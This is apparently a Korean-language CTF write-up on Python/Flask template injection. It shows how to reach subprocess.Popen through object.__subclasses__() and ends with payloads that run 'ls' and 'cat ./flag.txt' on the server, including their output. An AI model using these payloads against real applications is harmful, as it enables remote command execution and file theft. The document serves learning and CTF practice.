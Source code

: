 ```flask``` 클래스의 클래스 변수로 ```config```가 있는데, ```Config``` 클래스의 객체이다.

<br>

파이썬에서는 모든 것이 클래스이며 최상위 클래스는 object 클래스이다.

object 클래스의 서브클래스를 확인해보면 파이썬의 클래스 객체들이 들어 있는 걸 확인할 수 있다.
: ```object.__subclasses__()```

<br>

```''.__class__```를 하면 ```<class 'str'>```이 출력된다.

```''.__class__.mro()```를 하면 ```[<class 'str'>, <class 'object'>]```가 출력된다.

```''.__class__.mro()[1].__subclasses__()``` 또는 ```''.__class__.__base__.__subclasses__()```를 하면 object 클래스의 서브클래스들이 나온다. 
: 예를 들면, ```<class 'int'>```

이제 여기서 ```<class 'subprocess.Popen'>``` 클래스를 사용할 것이다.

<br>

<class 'subprocess.Popen'>
: <a href="https://docs.python.org/ko/3/library/subprocess.html#popen-constructor" target="_blank">docs.python.org/ko/3/library/subprocess.html#popen-constructor</a>
: <a href="http://theyoonicon.com/python-popen-클래스/" target="_blank">theyoonicon.com/python-popen-클래스/</a>
: ```Execute a child program in a new process. On POSIX, the class uses os.execvpe()-like behavior to execute the child program```
: ```POSIX에서 shell=True일 때, 셸의 기본값은 /bin/sh입니다.```


<br>

```''.__class__.__base__.__subclasses__()[282:]```, 282번째 인덱스에 ```subprocess.Popen``` 클래스가 있다.

그 다음은 Popen 사용법대로 사용하면 된다.

Popen 클래스 메소드 중 ```communicate```가 있는데 프로세스와 상호작용 하는 메소드다.
: <a href="https://docs.python.org/ko/3/library/subprocess.html#subprocess.Popen.communicate" target="_blank">docs.python.org/ko/3/library/subprocess.html#subprocess.Popen.communicate</a>
: 리턴 값으로 튜플 ```(stdout_data, stderr_data)``` 를 반환한다.

<br>

Popen 객체를 통해 communicate로 프로세스의 리턴 값을 보려면 stdin, stdout, stderr 값으로 subprocess.PIPE를 사용해야 한다.

PIPE 값은 소스코드를 보면 -1이다.
: <a href="https://github.com/python/cpython/blob/3.10/Lib/subprocess.py#L259" target="_blank">github.com/python/cpython/blob/3.10/Lib/subprocess.py#L259</a>

<br>

따라서 Popen 사용법은 다음과 같다.
: ```subprocess.Popen('ls',shell=True,stdout=-1).communicate()```

<br>

payload는 다음과 같다.

+ ```''.__class__.__base__.__subclasses__()[282]('ls', shell=True, stdout=-1).communicate()```
  + ```(b'flag.txt\nmain.py\npoetry.lock\npyproject.toml\nREADME.md\n', None)```

+ ```''.__class__.__base__.__subclasses__()[282]('cat ./flag.txt', shell=True, stdout=-1).communicate()```
```
